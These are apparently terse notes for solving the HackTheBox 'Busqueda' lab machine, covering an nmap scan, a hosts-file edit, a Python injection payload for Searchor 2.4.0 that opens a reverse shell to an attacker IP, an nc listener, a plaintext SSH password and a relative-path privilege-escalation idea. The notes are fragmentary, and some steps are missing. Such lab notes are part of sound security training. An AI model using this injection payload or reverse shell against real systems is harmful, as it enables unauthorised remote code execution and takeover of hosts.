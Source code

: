 


Busqueda
https://youtu.be/1nfnDrOZA7Y
nmap -T4 -p- -A ip
gedit /etc/hosts
>add >  10.10.11.208    searcher.ht b

go to this url
you will find many vuln of this "Searchor 2.4.0"

https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-
#Run this query  #change attacker IP and port
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))# 
#Prepare a listener: 
nc -lvnp PORT





#ssh login using that pw jh1usoih2bkjaspwe92



#can run this cmd as root



# use "| jq" to arrange output
#And you will find password. This is a docker admin password.
#We will try to login to gitea.searcher.htb page

nano /etc/hosts







#Of particular interest is the fact that the system-checkup.py script references the full-checkup.sh script using a relative path, ./full-checkup.sh , instead of an absolute path such as /opt/scripts/fullcheckup.sh , within the system-checkup.py file. This suggests that the system-checkup.py script attempts to execute full-checkup.sh from the directory where system-checkup.py was executed.





![image](https://github.com/user-attachments/assets/b4397a0b-4b0c-4f6b-a70a-5e755d951742)
